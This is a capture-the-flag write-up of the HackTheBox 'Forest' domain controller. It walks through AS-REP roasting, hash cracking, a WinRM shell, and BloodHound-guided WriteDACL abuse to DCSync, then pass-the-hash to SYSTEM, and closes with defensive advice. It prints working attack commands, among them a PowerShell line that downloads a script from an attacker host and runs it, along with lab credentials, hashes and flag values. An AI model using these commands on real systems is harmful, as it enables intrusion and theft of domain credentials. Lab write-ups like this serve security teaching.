

import Toggle from '@components/Toggle.astro';
import Callout from '@components/Callout.astro';
import FlagCapture from '@components/FlagCapture.astro';
import AttackPath from '@components/AttackPath.astro';

> AS-REP roasting cracks the svc-alfresco service account, and an Exchange Windows Permissions WriteDACL over the domain turns that foothold into a DCSync for Administrator.

## Recon

> Another box that answers to a name, FOREST, and a domain, htb.local. No website this time, so the directory itself will have to tell me who lives here.

First, confirm the host is actually up.

<Toggle label="Host reachability <code>ping</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Forest]
└─> ping 10.129.16.68
PING 10.129.16.68 (10.129.16.68) 56(84) bytes of data.
64 bytes from 10.129.16.68: icmp_seq=1 ttl=127 time=72.8 ms
64 bytes from 10.129.16.68: icmp_seq=2 ttl=127 time=72.8 ms
64 bytes from 10.129.16.68: icmp_seq=3 ttl=127 time=71.0 ms
64 bytes from 10.129.16.68: icmp_seq=4 ttl=127 time=72.8 ms
--- 10.129.16.68 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3015ms
rtt min/avg/max/mdev = 70.966/72.323/72.803/0.783 ms
```

</Toggle>

The `ttl=127` is the usual Windows tell (a default of 128, minus one hop). The scan fills in the rest.

<Toggle label="Service & version enumeration <code>nmap</code>">

```bash frame="code" title="Bash" {9,12}
┌──(Idan@Kali)-[~/Forest]
└─> nmap -sC -sV 10.129.16.68
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-25 11:36 -0400
Nmap scan report for 10.129.16.68
Host is up (0.088s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-03-25 15:43:09Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```

</Toggle>

An aggressive scan confirmed Windows Server 2016 and added nothing new, so I left it there and read the service list I already had.

<Callout type="recon">

- <span class="port-label">53/tcp</span> : DNS, Simple DNS Plus
- <span class="port-label">88/tcp</span> : Kerberos
- <span class="port-label">389/tcp</span> : LDAP for `htb.local`
- <span class="port-label">445/tcp</span> : SMB, signing required
- <span class="port-label">3268/tcp</span> : Global Catalog
- <span class="port-label">5985/tcp</span> : WinRM, the remote shell once I have credentials

This is the domain controller for htb.local, and there is no web surface at all. The directory itself, over LDAP and Kerberos, is the attack surface.

</Callout>

---

## Enumeration

> No web means the usual foothold is off the table, so I lean on what a domain controller gives away for free. If anonymous LDAP is open, the user list is one query away.

First, map the hostnames the scan surfaced so `forest.htb` and `FOREST.htb.local` resolve:

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> sudo nano /etc/hosts
# Add the following line
10.129.16.68   forest.htb FOREST.htb.local
```

I let `autorecon` blanket the host in the background, but the manual scan had already mapped the surface, so I went straight at the directory. Forest answers anonymous LDAP queries, which means I can enumerate every account in the domain without a single credential and drop the names into `users.txt`.

<Toggle label="Domain users from an anonymous bind <code>users.txt</code>">

```bash frame="code" title="Bash" {5}
┌──(Idan@Kali)-[~/Forest]
└─> cat users.txt
lucinda
andy
svc-alfresco
santi
mark
sebastien
Administrator
```

</Toggle>

---

## Foothold: AS-REP Roasting

> A domain that hands out its user list will often hand out more. If any of these accounts skipped pre-authentication, Kerberos will roast them for me.

### Roasting svc-alfresco

With a user list in hand, I ask the KDC which of these accounts do not require Kerberos pre-authentication. Any that qualify will return an AS-REP I can crack offline.

<Toggle label="AS-REP roasting the user list <code>netexec</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Forest]
└─> nxc ldap 10.129.16.68 -u users.txt -p '' --asreproast asrep.hash
LDAP        10.129.16.68    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None)
LDAP        10.129.16.68    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:4b64285a129fcfebc9668ee61df78c9d$4724ab...5ca581
```

</Toggle>

<Callout type="vuln">

svc-alfresco has Kerberos pre-authentication disabled, so the KDC will hand out an AS-REP for it to anyone who asks, encrypted with the account's password-derived key. That response is an offline-crackable hash: no interaction with the account, no failed logons, no lockout, just request and crack.

</Callout>

One account came back. I feed its hash to Hashcat with mode 18200 and the rockyou wordlist.

<Toggle label="Cracking the AS-REP hash <code>hashcat</code>">

```bash frame="code" title="Bash" {3}
┌──(Idan@Kali)-[~/Forest]
└─> hashcat -m 18200 -a 0 asrep.hash /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4b64285a...5ca581:s3rvice

Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Recovered........: 1/1 (100.00%) Digests
```

</Toggle>

<Callout type="loot">

- `svc-alfresco` : `s3rvice` (AS-REP roast, cracked with rockyou, valid for WinRM)

</Callout>

### A Shell as svc-alfresco

Port 5985 was open, and the account is almost certainly meant to log in there, so I take the credentials straight to Evil-WinRM.

<Toggle label="Interactive session <code>evil-winrm</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> evil-winrm -i 10.129.16.68 -u svc-alfresco -p 's3rvice'

Evil-WinRM shell v3.9

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

</Toggle>

I land as `svc-alfresco`, and the user flag is sitting on the desktop.

<Toggle label="Reading the user flag <code>type</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
<user flag>
```

</Toggle>

### <span class="task-title">User Flag</span>

<FlagCapture type="user" flag="f7b560191cd5e9bf6cbe8edc61d98ccb" />

---

## Privilege Escalation

> A shell as svc-alfresco is a foothold in a forest full of trust relationships. Somewhere in those group memberships is a path to the domain root, and BloodHound will draw it.

### Mapping the ACL Path with BloodHound

svc-alfresco's own privileges are unremarkable, so the interesting question is what its group memberships let it change. I collect the whole domain and let the graph answer.

<Toggle label="Domain mapping <code>bloodhound-python</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> bloodhound-python -d htb.local -u svc-alfresco -p 's3rvice' -dc FOREST.htb.local -c All -ns 10.129.16.68 --zip
INFO: Found AD domain: htb.local
INFO: Found 2 computers
INFO: Found 32 users
INFO: Found 76 groups
INFO: Compressing output into 20260325141243_bloodhound.zip
```

</Toggle>


*BloodHound draws the line I was looking for: svc-alfresco to Account Operators to Exchange Windows Permissions, and from there a WriteDACL edge onto the htb.local domain object.*

<Callout type="intel">

The path from a low service account to the domain root is three short hops:

- svc-alfresco is a member of Account Operators.
- Account Operators can write the membership of Exchange Windows Permissions.
- Exchange Windows Permissions holds WriteDACL over the htb.local domain object.

WriteDACL on the domain is the whole game. I add a controlled account to Exchange Windows Permissions, then use that group's write to grant the account DCSync and replicate every secret in the directory.

</Callout>

### WriteDACL to DCSync

The plan follows the graph exactly. I create a throwaway user, add it to Exchange Windows Permissions, load PowerView, and use the group's WriteDACL to grant that user DCSync rights over the domain.

<Toggle label="Granting DCSync through Exchange Windows Permissions <code>PowerView</code>">

```powershell frame="code" title="PowerShell" {13}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user idan Aa123456!1 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" idan /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" idan /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.87:8000/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPass = ConvertTo-SecureString 'Aa123456!1' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\idan', $SecPass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity idan -Credential $Cred -Rights DCSync
```

</Toggle>

With DCSync granted, `idan` can ask the domain controller to replicate account secrets, exactly as a second DC would. From Kali, I pull the hashes.

<Toggle label="Replicating the domain secrets <code>secretsdump</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Forest]
└─> impacket-secretsdump htb.local/idan:'Aa123456!1'@10.129.16.68
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
# remaining domain hashes trimmed
[*] Cleaning up...
```

</Toggle>

<Callout type="loot">

- `Administrator` : `aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6` (NTLM hash via DCSync, no cracking needed)

</Callout>

The Administrator hash is all I need. I pass it straight back to the domain controller for a SYSTEM shell, no password required.

<Toggle label="Pass-the-hash to SYSTEM and the root flag <code>psexec</code>">

```bash frame="code" title="Bash" {6,7}
┌──(Idan@Kali)-[~/Forest]
└─> impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.16.68
[*] Found writable share ADMIN$
[*] Creating service and executing the payload
[*] Opening a shell, press ENTER
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
<root flag>
```

</Toggle>

### <span class="task-title">Root Flag</span>

<FlagCapture type="root" flag="a98b4c63528d99f08b0c3dd89aca0e11" />

---

## Summary

The whole path in one breath: Forest answers anonymous LDAP queries, so I pull the domain's user list without credentials. One of those accounts, svc-alfresco, has Kerberos pre-authentication disabled, so I AS-REP roast it and crack `s3rvice` offline, which opens a WinRM shell and the user flag. BloodHound then draws the escalation: svc-alfresco can add a controlled account to Exchange Windows Permissions, that group holds WriteDACL over the domain, and WriteDACL grants DCSync. I replicate the Administrator hash, pass it back for a SYSTEM shell, and take the root flag.

<AttackPath
  title="Attack Path · htb.local"
  nodes={[
    { kind: 'User', name: 'svc-alfresco', detail: [ { k: 'via', v: 'AS-REP roast → <code>hashcat -m 18200</code>' }, { k: 'shell', v: '<code>evil-winrm</code>, user.txt' } ] },
    { kind: 'Group', name: 'Account Operators', edge: 'is <b>member of</b>', detail: [ { k: 'note', v: 'non-protected group, can manage others' } ] },
    { kind: 'Group', name: 'Exchange Windows Permissions', edge: '<b>adds members to</b>', detail: [ { k: 'edge', v: 'BloodHound: <code>WriteDACL → htb.local</code>' } ] },
    { kind: 'Domain', name: 'htb.local', edge: 'holds <b>WriteDACL</b>', detail: [ { k: 'right', v: '<code>WriteDACL</code> on the domain object' }, { k: 'action', v: 'add DS-Replication rights to our user' } ] },
    { kind: 'Account', name: 'Administrator', edge: 'grant <b>DCSync</b>', detail: [ { k: 'tool', v: '<code>secretsdump.py</code>' }, { k: 'result', v: 'replicated NTLM hash via DCSync' } ] },
    { kind: 'Root', name: 'SYSTEM', edge: '<b>pass-the-hash</b>', detail: [ { k: 'via', v: '<code>evil-winrm</code> PtH as Administrator' }, { k: 'flag', v: 'root.txt' } ] },
  ]}
/>

---

## Reflection

Three lessons, one per stage of the chain:

1. **Anonymous access to a directory is a free user list.** Forest let an unauthenticated client enumerate every account in htb.local, and that list is the raw material for AS-REP roasting, spraying, and everything after. A domain controller should not answer to nobody.
2. **A disabled pre-authentication flag is a crackable password.** svc-alfresco skipped Kerberos pre-auth, so the KDC handed out an offline hash for the asking, and a weak password did the rest. Pre-auth stays on, and service accounts get passwords a wordlist will never hold.
3. **WriteDACL on the domain is domain admin.** The real collapse was an ACL: Exchange Windows Permissions could rewrite the domain's security descriptor, and a low-tier account could join that group through Account Operators. One writable permission, reached in two hops, became DCSync over every secret in the forest.

<Callout type="defense">

Turn Kerberos pre-authentication back on for every account, svc-alfresco included, and give service accounts long random passwords rockyou cannot touch. The deeper fix is the directory ACL: Exchange Windows Permissions should not hold WriteDACL over the domain root, and low-tier accounts do not belong in Account Operators. Break either link and the path to DCSync never forms.

</Callout>
